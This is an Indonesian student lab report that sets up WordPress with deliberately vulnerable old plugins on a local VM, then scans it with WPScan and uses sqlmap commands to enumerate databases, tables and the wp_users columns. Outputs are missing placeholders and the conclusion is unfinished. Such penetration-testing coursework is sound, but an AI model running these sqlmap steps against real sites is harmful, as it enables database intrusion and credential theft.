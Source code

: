 # Tugas 2
**Anggota Kelompok**

| NRP         | Nama                        |
|-------------|-----------------------------|
| 5114100018  | Alek Nur Fatman             |
| 5114100077  | M Hanif Amrizal             |
| 5114100144  | Ilham Aulia Majid           |

## Pendahuluan
Sql Injection : SQL injection adalah sebuah teknik hacking yang menyalahgunakan celah keamanan pada database dari aplikasi. cara kerjanya adalah dengan menyisipkan perintah-perintah SQL melalu URL untuk di eksekusi oleh database.


## Dasar Teori

#### OS Ubuntu 16.04
Ubuntu 16.04 adalah sistem operasi distribusi linux yang berbasis debian dan bersifat Open Source.

#### Wordpress
Wordpress adalah aplikasi open source yang digunakan sebagai blog engine. Wordpress menggunakan bahasa pemrograman PHP dan basis data MySQL. Wordpress juga digunakan sebagai CMS (Content Management System) karena memiliki kemampuan untuk dimodifikasi dan disesuaikan dengan kebutuhan penggunanya.

#### Spider Video Player
Spider Video Player adalah salah satu plugin Wordpress yang menyediakan fitur untuk memasukkan video ke website Wordpress. 

#### League Manager
League Manager adalah plugin yang digunakan untuk menampilkan hasil dari sebuah pertandingan pada website wordpress.

#### WPScan
WPScan adalah tools vulnerability scanner untuk CMS Wordpress yang memeriksa keamanan WordPress menggunakan metode “black box”. WPScan ini ditulis dengan bahasa ruby.

#### sqlmap
Sqlmap adalah tools opensource yang mendeteksi dan melakukan exploit pada bug SQL injection secara otomatis. dengan melakukan serangan SQL injection seorang attacker dapat mengambil alih serta memanipulasi sebuah database di dalam sebuah server.


## Instalasi Wordpress, Vulnerable Plugins, dan Tools untuk Penetrasi

#### Instalasi LAMP
1. Buka terminal.
2. Masukkan perintah :
```
sudo apt-get install apache2 mysql-server php7.0 php7.0-mysql libapache2-mod-php7.0 php7.0-cli php7.0-cgi php7.0-gd
sudo systemctl enable apache2
sudo systemctl start apache2
```

#### Instalasi Wordpress
1. Unduh wordpress tarball di http://wordpress.org/latest.tar.gz
2. Ekstrak ke direktori /var/www/html dengan perintah `tar -xvzf wordpress-4.8.3.tar.gz -C /var/www/html `.
3. Buka `http://localhost/wordpress/wp-admin/install.php` dan ikuti prosedur yang ada.

#### Instalasi Plugin Video Player
1. Unduh plugin di https://wordpress.org/plugins/player/
2. Ekstrak plugin ke /var/www/html/wordpress/wp-content/plugins dengan perintah `unzip player.1.5.20.zip -d /var/www/html/wordpress/wp-content/plugins`.

#### Instalasi Plugin League Manager
1. Unduh plugin di https://wordpress.org/plugins/leaguemanager/
2. Ekstrak plugin ke /var/www/html/wordpress/wp-content/plugins dengan perintah `unzip leaguemanager.4.2-RC1.3.zip -d /var/www/html/wordpress/wp-content/plugins`.

#### Aktivasi Plugin
1. Buka halaman `http://localhost/wordpress/wp-admin/plugins.php`.
2. Centang LeagueManager dan Spider Video Player.
3. Pilih aksi `Activate` lalu klik `Apply`.

#### Instalasi WPScan
1. Instal prerequisites dengan perintah `sudo apt-get install git libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev build-essential libgmp-dev zlib1g-dev`.
2. Clone repository WPScan `git clone https://github.com/wpscanteam/wpscan.git`.
3. Pindah ke direktori WPScan `cd wpscan`.
4. Masukkan perintah `sudo gem install bundler && bundle install --without test development`.
5. Untuk menjalankan WPScan gunakan ruby `ruby wpscan.rb [options]`.

#### Instalasi sqlmap
1. Clone repository sqlmap `https://github.com/sqlmapproject/sqlmap.git`.
2. Pindah ke direktori WPScan `cd sqlmap`.
5. Untuk menjalankan WPScan gunakan python `python sqlmap.py [options]`.

## Uji Penetrasi SQL Injection

#### Uji WPScan
1. Update terlebih dahulu database WPScan dengan perintah `ruby wpscan.rb --update`.
2. Jalankan perintah `wpscan -u [alamat_wordpress] --enumerate vp`, contoh: `ruby wpscan.rb --u http://localhost/ --enumerate vp`. alamat localhost ; 10.0.2.15
3. Output :
4. ### tambah gambar yo



#### Uji sqlmap
1. Isikan terlebih dahulu data di leaguemanager.
2. Buka halaman plugin leaguemanager http://10.0.2.15/wp-admin/admin.php?page=leaguemanager.
3. Isi nama league kemudian klik tambah
4. Masuk ke terminal dan jalankan perintah `sqlmap -u "http://10.0.2.15/wp-admin/admin.php?league_id=2" --dbs `. Perintah ini digunakan untuk mencari tahu database apa yang digunakan.
5. ### tambah gambar yo
5. hasil output : 
6. ### tambah gambar yo
7. Untuk mengetahui tabel apa saja yang ada dalamnya jalankan perintah `sqlmap -u "http://10.0.2.15/wp-admin/admin.php?league_id=2" --dbms mysql --table`
8. ### tambah gambar yo
9. hasil output :
10. ### tambah gambar yo
11. Untuk mengetahui colom apa saja yang ada di tabel wp-users database wordpress dengan menjalankan perintah `sqlmap -u "http://10.0.2.15/wp-admin/admin.php?league_id=2" --dbms mysql --columns -D wordpress -T wp_users`
12.  ### tambah gambar yo
13.  hasil output : 
14.  ### tambah gambar yo


## Kesimpulan dan Saran
1. Tools WPScan dapat mengetahui celah keamanan wordpress yang dapat di tembus
2. 
